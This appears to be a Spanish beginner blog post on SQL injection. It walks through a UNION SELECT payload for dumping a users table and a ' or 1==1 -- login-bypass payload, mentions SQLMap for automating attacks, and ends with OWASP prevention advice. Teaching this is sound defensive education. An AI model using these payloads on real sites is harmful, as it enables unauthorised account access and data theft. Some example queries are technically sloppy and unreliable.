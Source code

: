 ```yaml
---
layout: post
category: red
tags: SQL SQLi Penstesting OWASP
author: RedDev
SQL Injection For Dummies: Bypasseando el Login
---
```


### ¿Qué es SQL Injection?
SQL Injection es el nombre que se le da a las diversas técnicas utilizadas para dumpear o aprovechar vulnerabilidades relacionadas con bases de datos sql, ya sea por una mala gestión de ciertos carácteres especiales o por una mala consulta a la base de datos. 
Podemos considerar estas técnicas como las madres de otras técnicas como NoSQLi.

### ¿Cómo puedo realizar estas técnicas?

Primero debemos comprender como funcionan las consultas que se realizan desde una app web hacia su base de datos.

De lado del cliente observaremos un formulario que tendrá uno o más inputs. Pero en el backend os encontraremos un programa que recoge lo introducido en el input y lo inserta en una consulta SQL.Por Ejemplo:

<form >
  <div><input type="text" name="q" id="lola" title="At least 3 characters" required></div>
<input type="submit">
</form>

```html
<form >
  <div><input type="text" name="q" id="lola" title="At least 3 characters" required></div>
<input type="submit">
</form>
```
Aquí tenemos un formulario que tiene id lola, por lo que imaginemos que es un buscador de usuarios por ejemplo. 
En el backend habría una query hacía la base de datos de este tipo:
```SQL
SELECT (lola) FROM USERS;
```
Si nosotros insertaramos '*' por ejemplo, la consulta quedaría de esta forma:

```SQL
SELECT * FROM USERS;
```
### Pongamonos el BlackHat
Es decir nos dumpearia la tabla USERS, pero hasta aquí no hay nada interesante, ya que el formulario nos devuelve información de los usuarios directamente.
Ahora imaginemos que lo que nos devuelve es información de un coche en una base de datos, entoneces nuestra query quedaría de esta forma:
```SQL
SELECT * FROM CARS WHERE NOMBRE LIKE '(lola)';
```
Ahora lo que nos interesa es sacar información de los usuarios, aunque estamos haciendo consultas a admin, por lo que utilizaremos carácteres especiales como '--'.
Con esto podríamos injectar el siguiente "payload":
lola -> [' UNION SELECT * FROM USERS --]
```SQL
SELECT * FROM CARS WHERE NOMBRE LIKE ' ' UNION SELECT * FROM USERS -- ';
```
Con el operador UNION, nos unira los resultados de los dos selects, ademas es importante insertando el cierre de comillas, nos saldremos del string y podremos realizar la otra query además los dos guiones en SQL comentan el resto de la línea.
Y de esta forma, desde un input que consulta coches podrémos dumpear la tabla de usuarios. Pero...¿Como podemos usar esto para por ejemplo bypasear un login?


### ByPass al login 

Lo primero que hay que entender es como funciona este tipo de logins:
<form >
  Username
  <input type="text" id="lola">
  Password
  <input type="password" name="pass" id="pass" >
<input type="submit">
</form>
```html
<form >
  <div><input type="text"  id="lola" >
  ><input type="password" name="pass" id="pass"></div>
<input type="submit">
</form>
```

En el backend nos encontraríamos una query de este estilo:
```SQL
SELECT id,Nombre FROM USERS WHERE USERNAME LIKE '(lola)' AND PASSWORD LIKE '(pass)'
```
En este caso nuestro payload tendría este estilo:
lola -> [' or 1==1 -- ]
Por lo que quedaría así nuestra query:
```SQL
SELECT id,Nombre FROM USERS WHERE USERNAME LIKE '' or 1==1 -- ' AND PASSWORD LIKE '(pass)'
```
Esto lo que nos va a generar es una query que su where da siempre positivo, por lo que nos dará la primera cuenta registrada, la cual suele ser la id = 0 o 1 que suele ser el administrados de la web, y nos loguea como el.

![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/8dca80f1-b73b-44cc-9031-5beca12682aa)

### Eres un Script Kiddle y no te apetece hacerlo a mano?

Pues he aquí la solucion [SQLMap](https://sqlmap.org/), esta herramienta, con los input de la web, automatiza el proceso de SQLInjection pudiendo incluso sacarte directamente una shell con control sobre el servidor que aloja la web.


### ¿Cómo puedo evitar esto en mi web?
 Segun la organización [OWASP](https://owasp.org/www-community/attacks/SQL_Injection), se recomienda:
 - Usar Prepared Statements con querys parametrizadas.
 - Usar constructores con procesos de alamacenamiento adecuados
 - Validacion de los inputs
 
 Para más información -> [Cheatsheet OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
 
 

